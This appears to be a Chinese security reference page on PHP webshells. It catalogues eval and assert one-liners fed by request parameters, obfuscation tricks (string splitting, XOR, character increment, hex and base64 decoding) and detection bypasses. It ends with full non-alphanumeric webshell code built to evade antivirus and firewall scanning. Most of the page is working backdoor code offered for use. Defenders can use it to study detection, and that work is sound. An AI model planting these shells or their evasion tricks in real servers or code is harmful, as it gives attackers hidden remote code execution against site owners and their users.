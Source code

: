 WebShell
================================

常见变形
--------------------------------
- GLOBALS
    - ``eval($GLOBALS['_POST']['op']);``
- ``$_FILE``
    - ``eval($_FILE['name']);``
- 拆分
    - ``eval(${"_PO"."ST"} ['sz']);``
- 动态函数执行
    - ``$k="ass"."ert"; $k(${"_PO"."ST"} ['sz']);``
    - ``$a=$_GET['a'];$a($_GET['b']);``
- create_function
    - ``$function = create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();``
- preg_replace
- 变形
    - str_replace(" ", "e v a l")
- 进制转化
    - ``"\x62\x61\163\x65\x36\x34\137\144\145\x63\x6f\144\145"``
- 进制运算
    - ``("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");``
- 自增运算
    - ``$a="a";$a++;``
- 强制类型转换
    - ``$a='';$a.=[]; // Array``
- 利用文件名
    - ``__FILE__``
- 注释
    - ``$a="e"."v"./*-/*-*/"a"./*-*/"l";``
- 反射
    - ``ReflectionFunction``

Bypass
--------------------------------
- 基于少见函数
    - ``mb_eregi_replace('.*',$_GET[1],'','e');``
- 基于污染传播
    - ``putenv($_GET["c"]);eval(getenv('path'));``
- 基于少见源
    - ``$a = filter_input(INPUT_GET,'c');``
    - ``eval(end(getallheaders()));``

字符串变形函数
--------------------------------
- str_replace
- str_rot13
- strtok
- strtolower
- strtoupper
- strtr
- substr
- substr_replace
- trim
- ucfirst
- ucwords

回调函数
--------------------------------
- array_filter
- array_map
- array_reduce
- array_walk
- array_walk
- array_walk_recursive
- call_user_func
- call_user_func_array
- filter_var
- filter_var_array
- preg_replace_callback
- register_tick_function
- registregister_shutdown_function
- uasort
- uksort

加解密函数
--------------------------------
- mcrypt_encrypt
- openssl_encrypt

其他执行方式
--------------------------------
- FFI
- SimpleXML
- SimpleXMLElement

自定义函数
--------------------------------
使用自定义的加解密函数，在一定程度上可以绕过一些防护软件的查杀，下面的代码是一个基于十六进制的执行的简单例子。

.. code:: php

    $string = '';
    $password = 'password';
    if(isset($_POST[$password])){
        $hex = $_POST[$password];
        for($i = 0; $i < strlen($hex) - 1; $i += 2) {
            $string .= chr(hexdec($hex[$i] . $hex[$i + 1]));
        }
    }
    eval($string);

特殊字符Shell
--------------------------------
PHP的字符串可以在进行异或、自增运算的时候，会直接进行运算，故可以使用特殊字符来构成Shell。

.. code:: php

    <?=`{${~"\xa0\xb8\xba\xab"}[~"\xa0"]}`;

.. code:: php

    @$_++;
    $__=("#"^"|").("."^"~").("/"^"`").("|"^"/").("{"^"/");
    @${$__}[!$_](${$__}[$_]);


.. code:: php

    $_=[];
    $_=@"$_"; // $_='Array';
    $_=$_['!'=='@']; // $_=$_[0];
    $___=$_; // A
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
    $___.=$__; // S
    $___.=$__; // S
    $__=$_;
    $__++;$__++;$__++;$__++; // E 
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
    $___.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $___.=$__;
    $____='_';
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
    $____.=$__;
    $__=$_;
    $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
    $____.=$__;

    $_=$$____;
    $___(base64_decode($_[_]));
